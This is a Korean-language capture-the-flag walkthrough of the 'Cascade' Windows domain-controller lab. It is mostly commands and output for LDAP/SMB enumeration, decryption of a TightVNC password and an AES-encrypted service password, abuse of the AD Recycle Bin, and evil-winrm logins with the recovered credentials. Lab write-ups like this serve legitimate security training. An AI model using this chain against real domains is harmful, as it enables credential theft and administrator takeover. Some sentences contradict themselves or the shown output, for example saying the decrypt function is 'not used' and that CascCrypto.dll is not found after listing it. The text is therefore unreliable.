



**날짜:** 2020년 7월 20일 / 문서 번호 D20.100.81
**작성자:** TRX
**머신 제작자:** VbScrub
**난이도:** 보통 (Medium)
**분류:** 기밀 (Confidential)

### 개요 (Synopsis)
Cascade는 도메인 컨트롤러로 구성된 중간 난이도의 Windows 머신이다. LDAP 익명 바인딩(anonymous binds)이 활성화되어 있으며, 열거를 통해 `r.thompson` 사용자의 비밀번호를 획득하여 TightVNC 레지스트리 백업에 접근할 수 있다. 이 백업을 복호화하면 `s.smith`의 비밀번호를 얻게 된다. 이 사용자는 .NET 실행 파일에 접근할 수 있는데, 이를 디컴파일하고 소스 코드를 분석하면 `Arksvc` 계정의 비밀번호가 드러난다. 이 계정은 AD Recycle Bin(AD 휴지통) 그룹에 속해 있어 삭제된 Active Directory 객체를 볼 수 있다. 삭제된 사용자 계정 중 하나에 하드코딩된 비밀번호가 포함되어 있는 것을 발견할 수 있으며, 이를 재사용하여 기본 도메인 관리자(primary domain administrator)로 로그인할 수 있다.

### 요구 기술 (Skills Required)
* LDAP 열거
* SMB 열거
* SQLite 데이터베이스 처리
* .NET 어셈블리 리버스 엔지니어링

### 습득 기술 (Skills Learned)
* TightVNC 비밀번호 추출
* AES 암호화
* Active Directory 열거
* Active Directory 휴지통 (Active Directory Recycle Bin)

---

## 열거 (Enumeration)

먼저 Nmap 스캔을 실행하는 것으로 시작한다.

```bash
ports=$(nmap -p- --min-rate=1000 -T4 TARGET_IP | grep '^[0-9]' | cut -d '/' -f 1 | tr '\n' ',' | sed s/,$//)
nmap -p$ports -Pn -sC -sV TARGET_IP
```

```text
PORT      STATE SERVICE      VERSION
53/tcp    open  domain       Microsoft DNS 6.1.7601 (1DB15D39)
| dns-nsid:
|_  bind.version: Microsoft DNS 6.1.7601 (1DB15D39)
88/tcp    open  kerberos-sec Microsoft Windows Kerberos
135/tcp   open  msrpc        Microsoft Windows RPC
139/tcp   open  netbios-ssn  Microsoft Windows netbios-ssn
389/tcp   open  ldap         Microsoft Windows Active Directory LDAP
445/tcp   open  microsoft-ds?
636/tcp   open  tcpwrapped
3268/tcp  open  ldap         Microsoft Windows Active Directory LDAP
3269/tcp  open  tcpwrapped
5985/tcp  open  http         Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
```

스캔 결과를 통해 LDAP (389), SMB (445) 및 WinRM (5985)이 사용 가능함을 알 수 있다. 열려 있는 공유 폴더가 있는지 확인하기 위해 SMB를 열거한다.

```bash
smbclient -L TARGET_IP
```

```text
Anonymous login successful

Sharename       Type      Comment
---------       ----      -------
SMB1 disabled -- no workgroup available
```

익명 로그인은 허용되지만 공유 폴더 목록을 볼 수는 없다.

### Lightweight Directory Access Protocol (LDAP)
다음으로 `windapsearch`를 다운로드한 후 LDAP를 열거할 수 있다.

```bash
git clone https://github.com/ropnop/windapsearch.git
pip install python-ldap
./windapsearch.py -U --full --dc-ip TARGET_IP
```

위 명령은 도메인의 모든 사용자를 나열한다.

```text
<SNIP>
cn: Ryan Thompson
sn: Thompson
givenName: Ryan
distinguishedName: CN=Ryan Thompson,OU=Users,OU=UK,DC=cascade,DC=local
sAMAccountName: r.thompson
cascadeLegacyPwd: clk0bjVldmE=
</SNIP>
```

사용자 설명(description) 필드에는 비밀번호가 없는 것으로 보이므로 다른 사용자 속성을 조사한다. 그중 `r.thompson` 사용자의 속성으로 `cascadeLegacyPwd`라는 것이 있는데, Base64로 인코딩된 문자열을 포함하고 있는 것으로 보인다. 이를 디코딩한다.

```bash
echo clk0bjVldmE= | base64 -d
rY4n5eva
```

출력 결과가 비밀번호인 것으로 보인다! `windapsearch` 출력을 통해 `sAMAccountName`이 `r.thompson`임을 알 수 있으므로 이를 사용자 이름으로 사용할 수 있다. `Evil-WinRM`을 사용하여 `r.thompson`으로 접속을 시도한다.

```powershell
evil-winrm -i TARGET_IP -u r.thompson -p rY4n5eva
```

```text
Evil-WinRM shell v2.3
Info: Establishing connection to remote endpoint
Error: An error of type WinRM::WinRMAuthorizationError happened, message is WinRM::WinRMAuthorizationError
Error: Exiting with code 1
```

로그인에 실패했으며, 이는 우리에게 PowerShell Remoting 권한이 없음을 의미한다.

### SMB
위에서 얻은 자격 증명으로 접근할 수 있는 SMB 공유 폴더가 있는지 확인하기 위해 `smbmap`을 사용한다.

```bash
smbmap -H TARGET_IP -u r.thompson -p 'rY4n5eva'
```

```text
[+] IP: TARGET_IP:445 Status: Authenticated
Disk            Permissions     Comment
----            -----------     -------
ADMIN$          NO ACCESS       Remote Admin
Audit$          NO ACCESS       
C$              NO ACCESS       Default share
Data            READ ONLY       
IPC$            NO ACCESS       Remote IPC
NETLOGON        READ ONLY       Logon server share
print$          READ ONLY       Printer Drivers
SYSVOL          READ ONLY       Logon server share
```

접근 가능한 비기본(non-default) 공유 폴더는 `Data` 공유가 유일한다.

```bash
smbclient \\\\TARGET_IP\\Data -U r.thompson
```

```text
Enter WORKGROUP\r.thompson's password: rY4n5eva
Try "help" to get a list of possible commands.
smb: \> ls
  Contractors                         D        0  Mon Jan 27 05:27:34 2020
  Finance                             D        0  Mon Jan 27 05:27:34 2020
  IT                                  D        0  Mon Jan 13 03:45:11 2020
  Production                          D        0  Mon Jan 13 03:45:06 2020
  Temps                               D        0  Tue Jan 28 20:04:51 2020
```

접근할 수 있는 폴더는 `IT`뿐이며, 그 안에는 `Email Archives`, `LogonAudit`, `Logs`, `Temp`라는 네 개의 하위 폴더가 있다.

```text
smb: \IT\> ls
  Email Archives                      D        0  Tue Jan 28 20:04:51 2020
  LogonAudit                          D        0  Tue Jan 28 20:04:40 2020
  Logs                                D        0  Wed Jan 29 02:53:04 2020
  Temp                                D        0  Wed Jan 29 00:06:59 2020
```

`Email Archives` 폴더에는 Steve Smith와 IT 부서 간의 이메일 대화 내용을 보여주는 `Meeting_Notes_June_2018.html` 파일이 있다. 다운로드하여 열어본다.

```bash
cd "Email Archives"
get Meeting_Notes_June_2018.html
```

텍스트 편집기나 브라우저를 사용하여 파일을 볼 수 있다.

```text
cat Meeting_Notes_June_2018.html
<SNIP>
we will be using a temporary account to perform all tasks related to the network migration and this account will be deleted at the end of 2018 once the migration is complete. This will allow us to identify actions related to the migration in security logs etc. Username is TempAdmin (password is the same as the normal admin account password).
</SNIP>
```

이 이메일 대화를 통해 기본 Administrator 계정과 동일한 비밀번호를 사용하는 `Tempadmin` 계정의 존재를 짐작할 수 있다.

`Logs` 폴더에는 `Ark AD Recycle Bin`과 `DCs` 폴더가 있으며, 각 폴더 안에는 `ArkAdRecycleBin.log`와 `dcdiag.log` 파일이 있다. 다운로드하여 확인한다.
`ArkAdRecycleBin.log`에는 ARK AD RECYCLE BIN MANAGER라는 프로그램에 대한 텍스트 로그가 포함되어 있다.

```text
8/12/2018 12:22 [MAIN_THREAD] ** STARTING ARK AD RECYCLE BIN MANAGER v1.2.2
8/12/2018 12:22 [MAIN_THREAD] Validating settings...
8/12/2018 12:22 [MAIN_THREAD] Running as user CASCADE\ArkSvc
8/12/2018 12:22 [MAIN_THREAD] Moving object to AD recycle bin CN=TempAdmin,OU=Users,OU=UK,DC=cascade,DC=local
8/12/2018 12:22 [MAIN_THREAD] Successfully moved object. New location CN=TempAdmin\0ADEL:f0cc344d-31e0-4866-bceb-a842791ca059,CN=Deleted Objects,DC=cascade,DC=local
```

로그를 통해 이 프로그램이 `Arksvc` 권한으로 실행되고 있으며 `TempAdmin` 계정이 휴지통으로 이동되었음을 알 수 있다.

마지막으로, `Temp` 폴더에는 `r.thompson`과 `s.smith` 사용자의 폴더가 있다. `s.smith`의 폴더 안에서 `VNC Install.reg` 파일을 찾을 수 있는데, 이건 원격 데스크톱 제어 프로그램인 TightVNC의 레지스트리 설정 백업으로 보인다.

```text
smb: \IT\> cd Temp
smb: \IT\Temp\> ls
  r.thompson                          D        0  Wed Jan 29 03:36:53 2020
  s.smith                             D        0  Wed Jan 29 01:30:01 2020
smb: \IT\Temp\> cd s.smith
smb: \IT\Temp\s.smith\> ls
  VNC Install.reg                     A     2680  Wed Jan 29 00:57:44 2020
```

---

## 초기 침투 (Foothold)

### TightVNC
발견된 레지스트리 파일에는 16진수 문자로 구성된 값을 가진 `Password` 속성이 포함되어 있다.

```text
"Password"=hex:6b,cf,2a,4b,6e,5a,ca,0f
```
https://github.com/frizb/PasswordDecrypts

이 문서에서는 Metasploit을 사용하여 TightVNC 비밀번호를 어떻게 해독할 수 있는지 보여준다. 다음 명령을 사용하여 비밀번호를 해독한다.

```ruby
msfconsole
msf5 > irb
[*] Starting IRB shell...
[*] You are in the "framework" object

key="\x17\x52\x6b\x06\x23\x4e\x58\x07"
>> require 'rex/proto/rfb'
=> true
>> Rex::Proto::RFB::Cipher.decrypt(["6BCF2A4B6E5ACA0F"].pack('H*'), key)
=> "sT333ve2"
```

`key` 변수는 프로그램에서 추출된 알려진 하드코딩 DES 키다. `Rex::Proto::RFB::Cipher.decrypt` 함수는 제공된 키를 사용하여 비밀번호를 해독하는 데 사용되지 않는다 않는다.

`s.smith`의 비밀번호가 `sT333ve2`로 밝혀졌다! 이 사용자가 `Remote Management Users` 그룹에 속해 있는지 확인한다. 이 권한이 있다면 Evil-WinRM을 사용하여 접속할 수 있다.

```bash
./windapsearch.py -U --full --dc-ip TARGET_IP
```

```text
<SNIP>
cn: Steve Smith
sn: Smith
givenName: Steve
distinguishedName: CN=Steve Smith,OU=Users,OU=UK,DC=cascade,DC=local
memberOf: CN=Audit Share,OU=Groups,OU=UK,DC=cascade,DC=local
memberOf: CN=Remote Management Users,OU=Groups,OU=UK,DC=cascade,DC=local
memberOf: CN=IT,OU=Groups,OU=UK,DC=cascade,DC=local
sAMAccountName: s.smith
</SNIP>
```

해당 권한이 있는 것을 확인했으므로 계속해서 접속을 진행할 수 있다.

```powershell
evil-winrm -i TARGET_IP -u s.smith -p sT333ve2
```

```text
Evil-WinRM shell v2.3
Info: Establishing connection to remote endpoint
*Evil-WinRM* PS C:\Users\s.smith\Documents>
```

접속이 성공적으로 이루어지고 PowerShell Remoting 세션이 연결됐다. 사용자 플래그(user flag)는 `C:\Users\s.smith\Desktop`에 있다.

---

## 수평적 권한 이동 (Lateral Movement)

### Audit
`Get-ADUser` 명령을 사용하여 `s.smith` 사용자의 속성을 나열할 수 있다.

```powershell
Get-ADUser -identity s.smith -properties *

<SNIP>
DisplayName       : Steve Smith
DistinguishedName : CN=Steve Smith,OU=Users...
MemberOf          : {CN=Audit Share...}
ScriptPath        : MapAuditDrive.vbs
</SNIP>

net user s.smith

<SNIP>
User name                    s.smith
Full Name                    Steve Smith
Logon script                 MapAuditDrive.vbs
Local Group Memberships      *Audit Share         *IT
                             *Remote Management Use
</SNIP>
```

명령 결과를 통해 사용자가 `Audit Share` 그룹의 구성원이며, 로그온 스크립트로 `MapAuditDrive.vbs`가 할당되어 있음을 확인할 수 있다. Active Directory 로그온 스크립트는 기본적으로 `NETLOGON` 공유 폴더에 저장된다.

```bash
smbclient \\\\TARGET_IP\\NETLOGON -U s.smith
```

```text
Enter WORKGROUP\s.smith's password: ST333ve2
smb: \> ls
  MapAuditDrive.vbs                   A       258  Wed Jan 15 23:50:15 2020
  MapDataDrive.vbs                    A       255  Wed Jan 15 23:51:03 2020
```

공유 폴더에 접근 가능하며, 스크립트가 `MapDataDrive.vbs`라는 다른 스크립트와 함께 존재한다. 다운로드해서 내용을 살펴본다.

```bash
get MapAuditDrive.vbs
get MapDataDrive.vbs
```

`MapDataDrive.vbs` 스크립트는 앞서 `r.thompson`으로 접근했던 Data 드라이브를 마운트하며, `MapAuditDrive.vbs` 스크립트는 이전에 접근할 수 없었던 `Audit$` 드라이브를 마운트한다.

```vbscript
'MapAuditDrive.vbs
Option Explicit
Dim ONetwork, strDriveLetter, strRemotePath
strDriveLetter = "F:"
strRemotePath = "\\CASC-DC1\Audit$"
Set ONetwork = CreateObject("WScript.Network")
ONetwork.MapNetworkDrive strDriveLetter, strRemotePath
WScript.Quit
```

`smbclient`를 사용해 `s.smith` 권한으로 해당 드라이브를 확인한다.

```bash
smbclient \\\\TARGET_IP\\Audit\$ -U s.smith
```

```text
Enter WORKGROUP\s.smith's password: ST333ve2
smb: \> ls
  CascAudit.exe                       A     13312  Tue Jan 28 23:46:51 2020
  CascCrypto.dll                      A     12288  Wed Jan 29 20:00:20 2020
  DB                                  D         0  Tue Jan 28 23:40:59 2020
  RunAudit.bat                        A        45  Wed Jan 29 01:29:47 2020
  System.Data.SQLite.dll              A    363520  Sun Oct 27 08:38:36 2019
  System.Data.SQLite.EF6.dll          A    186880  Sun Oct 27 08:38:38 2019
  x64                                 D         0  Mon Jan 27 00:25:27 2020
  x86                                 D         0  Mon Jan 27 00:25:27 2020
```

자세한 분석을 위해 `RunAudit.bat`을 다운로드한다.

```text
CascAudit.exe "\\CASC-DC1\Audit$\DB\Audit.db"
```

이 배치 파일은 DB 폴더에 있는 데이터베이스 파일을 입력값으로 하여 `CascAudit.exe`를 실행한다. 데이터베이스를 다운로드하고 `file` 명령어를 사용하여 파일 유형을 확인한다.

```bash
file Audit.db
Audit.db: SQLite 3.x database, last written using SQLite version 3027002
```

이건 SQLite 데이터베이스로 식별됐다. `sqlitebrowser` 유틸리티를 사용하여 DB 내용을 검사할 수 있다.

```bash
sqlitebrowser Audit.db
```

LDAP 테이블의 내용은 다음과 같다.

| Id | uname | pwd | domain |
| :--- | :--- | :--- | :--- |
| 1 | ArkSvc | BQO5l5Kj9MdErXx6Q6AGOw== | cascade.local |

LDAP 테이블에는 `ArkSvc` 사용자의 비밀번호가 포함되어 있다. Base64로 인코딩된 것 같지만, 디코딩해도 유용한 결과가 반환되지 않는 것으로 보아 데이터가 암호화되어 있음을 알 수 있다.

```bash
echo BQO5l5Kj9MdErXx6Q6AGOw== | base64 -d
DzC;
```

### CascAudit
이 데이터베이스는 `CascAudit.exe` 실행 파일에서 사용되므로 다운로드하여 디컴파일을 시도한다. 이렇게 하면 비밀번호가 어떻게 암호화되었는지 이해하는 데 도움이 될 수 있다. `file` 명령을 사용하여 실행 파일의 유형을 식별한다.

```bash
file CascAudit.exe
CascAudit.exe: PE32 executable (console) Intel 80386 Mono/.Net assembly, for MS Windows
```

이는 .NET 실행 파일로 식별되므로, `dnSpy`와 같은 .NET 디컴파일러를 사용하여 열 수 있다. Linux에서는 `wine`을 사용해 실행할 수 있다. 공식 GitHub 저장소에서 최신 64비트 릴리스를 다운로드한다.

```bash
sudo apt install wine64 -y
cd ~/Downloads
unzip dnSpy-netcore-win64.zip
cd dnSpy-netcore-win64
wine dnSpy.exe
```

File을 클릭한 다음 Open을 누르고 `CascAudit.exe`를 찾아 디컴파일한다. `CascAudit (1.0.0.0)`을 클릭하고 그 아래 `CascAudit`에서 `MainModule`을 선택하여 `main` 함수를 찾는다.



비밀번호를 복호화하는 관련 코드는 아래와 같다.

```csharp
string text = string.Empty;
string password = string.Empty;
string text2 = string.Empty;
try
{
    sqliteConnection.Open();
    using (SQLiteCommand sqliteCommand = new SQLiteCommand("SELECT * FROM LDAP", sqliteConnection))
    {
        using (SQLiteDataReader sqliteDataReader = sqliteCommand.ExecuteReader())
        {
            sqliteDataReader.Read();
            text = Conversions.ToString(sqliteDataReader["Uname"]);
            text2 = Conversions.ToString(sqliteDataReader["Domain"]);
            string text3 = Conversions.ToString(sqliteDataReader["Pwd"]);
            try
            {
                password = Crypto.DecryptString(text3, "c4scadek3y654321");
            }
            catch (Exception ex)
            {
                Console.WriteLine("Error decrypting password: " + ex.Message);
                return;
            }
        }
    }
    sqliteConnection.Close();
}
```

프로그램은 SQLite 데이터베이스를 열고 비밀번호를 읽은 후, `c4scadek3y654321`이라는 키를 사용하여 `Crypto.DecryptString` 함수로 복호화한다. 복호화 함수는 실행 파일 내에 없는 것으로 보이므로 DLL을 통해 로드되었을 가능성이 커. Audit 공유 폴더를 살펴보면 `CascCrypto.dll`이 확인되지 않는다. 공유에서 다운로드하여 dnSpy를 사용해 열어본다. 관련 코드는 다음과 같다.


```csharp
public static string DecryptString(string EncryptedString, string Key)
{
    byte[] array = Convert.FromBase64String(EncryptedString);
    Aes aes = Aes.Create();
    aes.KeySize = 128;
    aes.BlockSize = 128;
    aes.IV = Encoding.UTF8.GetBytes("1tdyjCbY1Ix49842");
    aes.Mode = 1;
    aes.Key = Encoding.UTF8.GetBytes(Key);
    string @string;
    using (MemoryStream memoryStream = new MemoryStream(array))
    {
        using (CryptoStream cryptoStream = new CryptoStream(memoryStream, aes.CreateDecryptor(), 0))
        {
            byte[] array2 = new byte[checked(array.Length - 1 + 1)];
            cryptoStream.Read(array2, 0, array2.Length);
            @string = Encoding.UTF8.GetString(array2);
        }
    }
    return @string;
}
```

비밀번호를 복호화하는 데 128비트 AES 알고리즘이 사용됐다. 암호화 모드는 1로 설정되어 있고 IV는 `1tdyjCbY1Ix49842`로 설정되어 있다. .NET 문서에 따르면 모드 1은 CBC에 해당한다. `pyaes` 모듈을 사용하여 비밀번호를 복호화할 수 있다.

```bash
pip3 install pyaes
```
https://github.com/ricmoo/pyaes

비밀번호를 복호화하기 위해 아래 파이썬 스크립트를 사용할 수 있다.

```python
import pyaes
from base64 import b64decode

key = b"c4scadek3y654321"
iv = b"1tdyjCbY1Ix49842"
aes = pyaes.AESModeOfOperationCBC(key, iv=iv)
decrypted = aes.decrypt(b64decode('BQO5l5Kj9MdErXx6Q6AGOw=='))
print(decrypted.decode())
```

```bash
python3 decrypt.py
w3lc0meFr31nd
```

복호화가 성공적으로 이루어져 `Arcsvc` 계정의 비밀번호가 `w3lc0meFr31nd`임을 확인했다! `ArkSvc`가 `Remote Management Users` 그룹에 있는지 확인한다.

```powershell
PS C:\Users\s.smith\> net localgroup "Remote Management Users"
Alias name     Remote Management Users
Members
-------------------------------------------------------------------------------
arksvc
s.smith
The command completed successfully.
```

이전과 같이 Evil-WinRM을 사용하여 시스템에 연결한다.

```powershell
evil-winrm -i TARGET_IP -u ArkSvc -p w3lc0meFr31nd
```

```text
Evil-WinRM shell v2.3
Info: Establishing connection to remote endpoint
*Evil-WinRM* PS C:\Users\arksvc\Documents>
```

`ArkSvc` 계정으로 PowerShell Remoting 세션이 연결되었지만, 루트 플래그(root flag)는 사용할 수 없다.

---

## 권한 상승 (Privilege Escalation)

현재 사용자의 그룹 멤버십을 열거한다.

```powershell
whoami /all
```

```text
USER INFORMATION
----------------
User Name      SID
================ ==============================================
cascade\arksvc S-1-5-21-3332504370-1206983947-1165150453-1106

GROUP INFORMATION
-----------------
Group Name                                 Type             SID
========================================== ================ ==============================================
Everyone                                   Well-known group S-1-1-0
BUILTIN\Users                              Alias            S-1-5-32-545
BUILTIN\Pre-Windows 2000 Compatible Access Alias            S-1-5-32-554
NT AUTHORITY\NETWORK                       Well-known group S-1-5-2
NT AUTHORITY\Authenticated Users           Well-known group S-1-5-11
NT AUTHORITY\This Organization             Well-known group S-1-5-15
CASCADE\Data Share                         Alias            S-1-5-21-3332504370-1206983947-1165150453-1138
CASCADE\IT                                 Alias            S-1-5-21-3332504370-1206983947-1165150453-1113
CASCADE\AD Recycle Bin                     Alias            S-1-5-21-3332504370-1206983947-1165150453-1119
CASCADE\Remote Management Users            Alias            S-1-5-21-3332504370-1206983947-1165150453-1126
NT AUTHORITY\NTLM Authentication           Well-known group S-1-5-64-10
Mandatory Label\Medium Plus Mandatory Level Label           S-1-16-8448
```

해당 사용자가 `AD Recycle Bin` 그룹에 속해 있음이 확인됐다. Active Directory 휴지통(AD Recycle Bin)은 사용자, 그룹, OU 등 삭제된 Active Directory 객체를 복구하는 데 사용된다. 삭제된 객체는 AD 휴지통에 있는 동안 모든 속성이 그대로 유지되므로 언제든지 복원할 수 있다.

`Get-ADObject` 명령어를 사용하고 `isDeleted` 속성으로 삭제된 객체만 필터링하여 AD 휴지통에서 흥미로운 객체를 열거한다.

```powershell
Get-ADObject -ldapfilter "(&(isDeleted=TRUE))" -IncludeDeletedObjects
```

`objectclass` 속성을 사용하여 사용자 계정만 검색하도록 필터를 적용할 수 있다.

```powershell
Get-ADObject -ldapfilter "(&(objectclass=user)(isDeleted=TRUE))" -IncludeDeletedObjects
```

```text
<SNIP>
Deleted           : True
DistinguishedName : CN=TempAdmin\0ADEL:f0cc344d-31e0-4866-bceb-a842791ca059,CN=Deleted Objects,DC=cascade,DC=local
Name              : TempAdmin
                    DEL:f0cc344d-31e0-4866-bceb-a842791ca059
ObjectClass       : user
ObjectGUID        : f0cc344d-31e0-4866-bceb-a842791ca059
</SNIP>
```

이메일 대화에 언급되었던 `TempAdmin` 계정이 반환됐다! 해당 사용자를 추가로 열거하고 사용 가능한 속성을 나열한다. 특정 계정만 선택하기 위해 `DisplayName` 필터를 사용할 수 있다.

```powershell
Get-ADObject -ldapfilter "(&(objectclass=user)(DisplayName=TempAdmin)(isDeleted=TRUE))" -IncludeDeletedObjects -Properties *
```

```text
<SNIP>
accountExpires    : 9223372036854775807
badPasswordTime   : 0
badPwdCount       : 0
CanonicalName     : cascade.local/Deleted Objects/TempAdmin
                    DEL:f0cc344d-31e0-4866-bceb-a842791ca059
cascadeLegacyPwd  : YmFDVDNYMWFOMDBkbGVz
CN                : TempAdmin
                    DEL:f0cc344d-31e0-4866-bceb-a842791ca059
</SNIP>
```

`cascadeLegacyPwd`라는 속성이 반환되었는데, 이건 앞서 `r.thompson`이 가지고 있던 것과 매우 유사하며 Base64로 인코딩된 문자열 형태를 보인다. 이를 디코딩한다.

```bash
echo YmFDVDNYMWFOMDBkbGVz | base64 -d
baCT3r1aN00dles
```

반환된 문자열은 비밀번호처럼 보이지만, 사용자가 삭제된 상태이므로 `TempAdmin`으로 로그인하는 데는 사용할 수 없다. 하지만 이메일 대화에서 Administrator 계정이 TempAdmin 계정과 동일한 비밀번호를 가지고 있다고 했던 점을 떠올릴 수 있다. 대신 Administrator로 로그인한다.

```powershell
evil-winrm -i TARGET_IP -u Administrator -p baCT3r1aN00dles
```

```text
Evil-WinRM shell v2.3
Info: Establishing connection to remote endpoint
*Evil-WinRM* PS C:\Users\Administrator\Documents>
```

드디어 로그인이 성공적으로 완료됐다! 이제 루트 플래그를 읽을 수 있다.
